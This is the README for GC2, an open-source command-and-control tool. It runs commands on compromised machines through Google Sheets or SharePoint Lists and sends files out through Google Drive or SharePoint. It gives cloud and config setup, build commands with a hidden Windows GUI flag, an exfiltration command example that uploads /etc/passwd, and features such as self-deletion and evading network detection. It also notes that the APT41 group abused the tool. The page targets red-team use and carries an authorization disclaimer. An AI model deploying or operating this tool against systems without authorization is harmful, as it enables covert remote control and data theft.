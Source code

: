 # GC2

<p align="center">
  <img alt="Logo" src="img/GC2.png" height="30%" width="30%">
</p>

GC2 (Google Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using Google Sheet or Microsoft SharePoint List and exfiltrate files using Google Drive or Microsoft SharePoint Document.

# Why

This project has been developed to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Google and Microsoft's domains (like *.google.com) to make network detection more difficult.

# Workflow

## Google
<p align="center">
  <img alt="Work Flow" src="img/Google_workflow.png" height="60%" width="60%">
</p>

## Microsoft
<p align="center">
  <img alt="Work Flow" src="img/Microsoft_workflow.png" height="60%" width="60%">
</p>

# Set up

This C2 support both Google (Google Sheet + Google Drive) and Microsoft (SharePoint Lists + SharePoint Document) services. To use the C2 you need to set up both the local and cloud configuration.

## Cloud config

### Google

1. **Create a new Google "service account"**
 
    Create a new Google "service account" using [https://console.cloud.google.com/](https://console.cloud.google.com/), create a .json key file for the service account. 

2. **Enable Google Sheet API and Google Drive API**

    Enable Google Drive API [https://developers.google.com/drive/api/v3/enable-drive-api](https://developers.google.com/drive/api/v3/enable-drive-api) and Google Sheet API [https://developers.google.com/sheets/api/quickstart/go](https://developers.google.com/sheets/api/quickstart/go). 

3. **Set up Google Sheet and Google Drive**

    Create a new Google Sheet and share it (as Editor) with the Service Account (by using its email).
    
    <p align="center">
        <img alt="Sheet Permission" src="img/Google_Sheet_permissions.png" height="60%" width="60%">
    </p>
    
    Create a new Google Drive folder and share it (as Editor) with the Service Account (by using its email).
    
    <p align="center">
        <img alt="Sheet Permission" src="img/Google_Drive_permissions.png" height="60%" width="60%">
    </p>    

### Microsoft

To interact with Microsoft services you will first need a Business subscription (you can get one for free for the first 30 days).

1. **Create an Azure Application**

   Create a new Azure Aapplication as described here [https://learn.microsoft.com/en-us/graph/auth-v2-service?tabs=http](https://learn.microsoft.com/en-us/graph/auth-v2-service?tabs=http)

    <p align="center">
        <img alt="Sheet Permission" src="img/Microsoft_Azure_application.png" height="60%" width="60%">
    </p>

   After creating the new application, enable the following Graph APIs:
   - Sites.ReadWrite.All
   - Files.ReadWrite.All

    <p align="center">
        <img alt="Sheet Permission" src="img/Microsoft_Azure_application_API.png" height="60%" width="60%">
    </p>

### Local config

1. **Download the C2**

    The C2 can be cloned directly from GitHub:

    ```
    git clone https://github.com/looCiprian/GC2-sheet
    cd GC2-sheet
    ```

5. **Configure the C2**

    To configure the C2 you need to modify the `cmd/options.yml` file. The C2 supports both Google and Microsoft services, mixing them is also possible.

   *Only Google services*

    ```
   CommandService: "Google" # Google Sheet will be used as command service to pull commands and push commands' output
   FileSystemService: "Google" # Google Drive will be used as file system to download and exfiltrate files
   GoogleServiceAccountKey : "1234567890" # your escaped json file
   GoogleSheetID: "0987654321" # your Google Sheet ID (can be found in the URL)
   GoogleDriveID: "1234554321" # your Google Drive folder ID (can be found in the URL)
   #RowId: 1 # optional, specify from which (Google Sheet or SharePoint List) row the beacon should pull new commands
   #Proxy: "http://127.0.0.1:8080" # optional, specify the proxy
   Verbose: true # optional, suggested for debugging purposes
    ```

   *Only Microsoft services*
   
   ```
   CommandService: "Microsoft" # Microsoft SharePoint List will be used as command service to pull commands and push commands' output
   FileSystemService: "Microsoft" # Microsoft SharePoint Document will be used as file system to download and exfiltrate files
   MicrosoftTenantID: "567890098765" # your Azure Tenant ID where the Azure Application was created
   MicrosoftClientID: "098765567890" # your Azure Application ID
   MicrosoftClientSecret: "1234509876" # your Azure Application Secret value
   MicrosoftSiteID: "0987612345" # # your SharePoint ID
   #RowId: 1 # optional, specify from which (Google Sheet or SharePoint List) row the beacon should pull new commands
   #Proxy: "http://127.0.0.1:8080" # optional, specify the proxy
   Verbose: true # optional, suggested for debugging purposes
   ```

   *Mixing Google and Microsoft services*
   
   ```
   CommandService: "Google" # Google Sheet will be used as command service to pull commands and push commands' output
   FileSystemService: "Microsoft" # Microsoft SharePoint Document will be used as file system to download and exfiltrate files
   GoogleServiceAccountKey : "1234567890" # your escaped json file
   GoogleSheetID: "0987654321" # your Google Sheet ID (can be found in the URL)
   GoogleDriveID: "1234554321" # your Google Drive folder ID (can be found in the URL)
   MicrosoftTenantID: "567890098765" # your Azure Tenant ID where the Azure Application was created
   MicrosoftClientID: "098765567890" # your Azure Application ID
   MicrosoftClientSecret: "1234509876" # your Azure Application Secret value
   MicrosoftSiteID: "0987612345" # # your SharePoint ID
   #RowId: 1 # optional, specify from which (Google Sheet or SharePoint List) row the beacon should pull new commands
   #Proxy: "http://127.0.0.1:8080" # optional, specify the proxy
   Verbose: true # optional, suggested for debugging purposes
   ```

6. **Build the executable**

   Few examples on how cross compile the C2 for different OS and architecture. 

    ```
   env GOOS=windows GOARCH=amd64 go build -ldflags "-s -w -H windowsgui"
   env GOOS=linux GOARCH=amd64 go build -ldflags "-s –w"
   env GOOS=darwin GOARCH=amd64 go build -ldflags "-s –w"
    ```

7. **Run**

    After compiling execute it.

    ```
    ./gc2-sheet
    ```
   
   The beacon will automatically create a new Google Sheet or Microsoft SharePoint List accordingly to your configuration.

## Troubleshooting

Most of the errors can be detected by setting the `verbose` flag to `true`. By default, the C2 does not generate any output or error information.

# Features

- Command execution using Google Sheet or Microsoft SharePoint List as a console
- Download files on the target using Google Drive or Microsoft SharePoint Document
- Data exfiltration using Google Drive or Microsoft SharePoint Document
- Self-kill switch and auto-delete from the target machine 

## Command execution

### Google

A Google Sheet will be automatically created by the C2. Once created you can interact with the compromised system as shown below.

   <p align="center">
        <img alt="Sheet Permission" src="img/Google_usage.png" height="60%" width="60%">
    </p>

### Microsoft

A Microsoft SharePoint List will be automatically created by the C2. Once created you can interact with the compromised system as shown below.

   <p align="center">
        <img alt="Sheet Permission" src="img/Microsoft_usage.png" height="60%" width="60%">
    </p>

## Data exfiltration file

Special command is reserved to exfiltrate files form the target system.

 ```
From Target to Google Drive/Microsoft SharePoint Document
upload;<local path>
Example:
upload;/etc/passwd
 ```

Note: files with the same name are automatically overwritten.

## Download file

Special command is reserved to download files to the target system.

#### Google 
 ```
 From Google Drive to Target
download;<google drive file id>;<local path>
Example:
download;<file ID>;/home/user/downloaded.txt
 ```

#### Microsoft
Note: Files need to be saved in the SharePoint root folder, usually "Documents"
 ```
 From SharePoint to Target
download;<SharePoint file path>;<local path>
Example:
download;download.txt;/home/user/downloaded.txt
 ```

## Exit

By sending the *exit* command, the C2 will kill and delete itself from the target system.

PS: From *os* documentation: 
*If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case, the symlink is deleted.

# DEF CON Slides + demo

[DEF CON Slide](https://drive.google.com/file/d/1cokEcUcxgR4pNRRF5lIXCsNW8kh4ME42/view?usp=sharing)

[Demo](https://youtu.be/n2dFlSaBBKo)

[Demo](https://youtu.be/pLfuZnLcR1o) by [Grant Collins](https://www.youtube.com/@collinsinfosec)

# Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

# Support the project

**Pull request** or [![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donate_SM.gif)](https://www.paypal.com/donate?hosted_button_id=8EWYXPED4ZU5E)

## Contributors
[Paolo Conizzoli](https://github.com/paoloconi96)

# Articles related to this tool

[DEF CON 32](https://forum.defcon.org/node/249630); [DEF CON 32 Reddit](https://www.reddit.com/r/Defcon/comments/tx7tg2/mega_def_con_info_for_your_planning_enjoyment/)

[Google](https://services.google.com/fh/files/blogs/gcat_threathorizons_full_apr2023.pdf)

[The Hacker News](https://thehackernews.com/2023/04/google-uncovers-apt41s-use-of-open.html)

[Reddit](https://www.reddit.com/r/cybersecurity/comments/12u3wvl/top_cybersecurity_stories_for_the_week_of_041723/)

[LinkedIn](https://www.linkedin.com/pulse/hacking-tutorial-google-sheets-command-control-c2-server-maxwell-zhou/)

[Bleeping Computer](https://www.bleepingcomputer.com/news/security/hackers-abuse-google-command-and-control-red-team-tool-in-attacks/)

[Security Affairs](https://securityaffairs.com/144915/apt/china-apt41-tool-gc2.html)

[Icrewplay](https://tech.icrewplay.com/gc2-strumento-google-gruppo-cinese-apt41/?utm_content=cmp-true)

[Information Security Buzz](https://informationsecuritybuzz.com/google-uncovers-apt41-tools-targeting-media-and-job-sites/)

[Hackdig](http://en.hackdig.com/04/477620.htm)

[Hakin9](https://hakin9.org/gc2-command-and-control-application/)

[RedPacketSecurity](https://www.redpacketsecurity.com/gc2-a-command-and-control-application-that-allows-an-attacker-to-execute-commands-on-the-target-machine-using-google-sheet-and-exfiltrate-data-using-google-drive/)

[Cyware](https://cyware.com/news/apt41-uses-open-source-red-teaming-tool-gc2-9eaecb18)

[Kitploit](https://www.kitploit.com/2021/10/gc2-command-and-control-application.html)

News mentioning malware using the same concept:
[The Hacker News - Voldemort](https://thehackernews.com/2024/08/cyberattackers-exploit-google-sheets.html)
[Bleeping Computer - Voldemort](https://www.bleepingcomputer.com/news/security/new-voldemort-malware-abuses-google-sheets-to-store-stolen-data/)